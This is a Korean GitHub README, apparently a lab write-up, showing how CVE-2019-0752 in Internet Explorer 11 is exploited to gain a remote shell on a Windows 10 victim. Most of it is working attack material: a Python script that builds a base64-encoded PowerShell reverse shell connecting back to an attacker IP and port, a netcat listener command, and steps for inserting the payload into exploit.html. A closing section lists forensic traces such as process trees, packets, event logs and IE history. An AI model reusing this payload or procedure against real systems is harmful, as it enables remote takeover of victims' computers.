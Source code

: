 # [목차]
**1. [Environment](#Environment)**

**2. [Setting](#Setting)**

**3. [Exploit](#Exploit)**

**4. [etc](#etc)**


***


# **Environment**

| Type     | OS              | Build     | IP              | App                              |
| :---     | :---            | :---      | :---            |:---                              |
| Victim   | Windows 10 1809 | 17763.379 | 192.168.108.137 | internet explorer 11.379.17763.0 |
| Attacker | Windows 10 1809 | 17763.379 | 192.168.0.32    | [exploit.html](https://github.com/2jinu/CVE/blob/main/RCE/%5BWindows%5D%20CVE-2019-0752/file/exploit.html) |

# **Setting**

페이로드 생성

```py
import sys
import base64

def help():
    print("USAGE: %s IP PORT" % sys.argv[0])
    print("Returns reverse shell PowerShell base64 encoded cmdline payload connecting to IP:PORT")
    exit()
    
try:
    (ip, port) = (sys.argv[1], int(sys.argv[2]))
except:
    help()

# payload from Nikhil Mittal @samratashok
# https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3

payload = '$client = New-Object System.Net.Sockets.TCPClient("%s",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
payload = payload % (ip, port)

cmdline = "powershell -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmdline)
```

![](images/2022-05-18-21-57-45.png)

Exploit Code에 생성된 페이로드 삽입

    base64로 encoding된 부분만 Exploit Code중 <!--Payload--> 부분에 삽입

세션 대기

```
nc64.exe -nvlp [reverse port] -s [reverse ip]
```

![](images/2022-05-18-21-59-20.png)


# **Exploit**

Victim이 페이로드가 삽입된 exploit.html에 접근한뒤 activex를 실행하면 Attacker가 Victim의 쉘 획득

![](images/2022-05-18-22-01-56.png)


# **etc**

process tree 확인

![](images/2022-05-18-22-02-08.png)

![](images/2022-05-18-22-02-16.png)
![](images/2022-05-18-22-02-19.png)

패킷 확인

![](images/2022-05-18-22-02-39.png)

이벤트뷰어(eventvwr) 확인

    응용 프로그램 및 서비스 로그 > Windows PowerShell

![](images/2022-05-18-22-03-04.png)

IE history에서 html확인

    %localappdata%\Microsoft\Windows\History

![](images/2022-05-18-22-04-11.png)

인터넷 옵션 > 고급 > 보안에서 "[내 컴퓨터]에 있는 파일에서 액티브 콘텐츠가 실행되는 것을 허용"을 체크하면 activex 실행을 묻지않고 바로 실행

![](images/2022-05-18-22-04-59.png)